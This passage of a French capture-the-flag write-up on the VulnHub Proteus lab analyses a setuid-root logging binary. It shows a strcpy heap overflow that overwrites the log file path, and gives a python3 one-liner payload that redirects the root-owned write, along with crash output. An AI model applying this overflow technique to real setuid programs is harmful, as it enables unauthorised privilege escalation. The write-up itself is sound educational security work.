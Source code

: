 Cela permet d'accéder à l'instance MySQL locale et d'obtenir le hash du password de malwareadm... mais il ne nous apportera rien ici.  

En revanche il y a un binaire avec des autorisations bien spécifiques (SETUIDDDDDDDDDD !)  

```plain
-rwsr-xr-x 1 root root 7824 May 10  2017 /home/malwareadm/sites/proteus_site/admin_login_logger
```

Quand on lance cet exécutable on a le message suivant :  

```plain
$ ./admin_login_logger
Usage: ./admin_login_logger  ADMIN LOGIN ATTEMPT (This will be done with phantomjs)
```

L'analyse du binaire se fait rapidement avec la dernière version de *Cutter*.  

Il y a deux pointeurs qui sont alloués via *malloc()*. Une première chaîne baptisée *dest* de 450 octets et une seconde nommée *path* de 21 octets.  

![VulnHub CTF Proteus malloc 2 strings](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/proteus/malloc.png)

On a ensuite un beau *strcpy()* sur *dest* avec *argv[1]* comme source. Comme *dest* vient avant *path* dans l'ordre des *malloc()* on est en mesure d'écraser le chunk contenant *path* (heap overflow basique).  

![VulnHub CTF Proteus strcpy vulnerability](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/proteus/strcpy.png)

Et ce path est justement ouvert en écriture pour y placer l'UID utilisateur au format brut (si votre UID est 65 ça écrira le caractère A) suivi des données passées via *argv[1]*.  

Ce path est normalement */var/log/proteus/log* mais du coup on peut le contrôler :  

```plain
./admin_login_logger `python3 -c 'print("A"*450 + "/"*10 + "/tmp//yolo.txt")'`
Writing datafile 0x81501d0: '/////tmp//yolo.txt'
*** Error in `./admin_login_logger': free(): invalid next size (normal): 0x08150008 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67377)[0xf7da5377]
/lib/i386-linux-gnu/libc.so.6(+0x6d2f7)[0xf7dab2f7]
/lib/i386-linux-gnu/libc.so.6(+0x6dc31)[0xf7dabc31]
./admin_login_logger[0x8048a14]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf7)[0xf7d56637]
./admin_login_logger[0x80485d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fd:01 12482883                           /home/nico/Documents/proteus/admin_login_logger
08049000-0804a000 r--p 00000000 fd:01 12482883                           /home/nico/Documents/proteus/admin_login_logger
0804a000-0804b000 rw-p 00001000 fd:01 12482883                           /home/nico/Documents/proteus/admin_login_logger
08150000-08171000 rw-p 00000000 00:00 0                                  [heap]
f7c00000-f7c21000 rw-p 00000000 00:00 0
f7c21000-f7d00000 ---p 00000000 00:00 0
f7d3d000-f7d3e000 rw-p 00000000 00:00 0
f7d3e000-f7eee000 r-xp 00000000 fd:01 9306265                            /lib/i386-linux-gnu/libc-2.23.so
f7eee000-f7ef0000 r--p 001af000 fd:01 9306265                            /lib/i386-linux-gnu/libc-2.23.so
f7ef0000-f7ef1000 rw-p 001b1000 fd:01 9306265                            /lib/i386-linux-gnu/libc-2.23.so
f7ef1000-f7ef4000 rw-p 00000000 00:00 0
f7f08000-f7f24000 r-xp 00000000 fd:01 9310739                            /lib/i386-linux-gnu/libgcc_s.so.1
f7f24000-f7f25000 rw-p 0001b000 fd:01 9310739                            /lib/i386-linux-gnu/libgcc_s.so.1
f7f25000-f7f27000 rw-p 00000000 00:00 0
f7f27000-f7f2a000 r--p 00000000 00:00 0                                  [vvar]
```
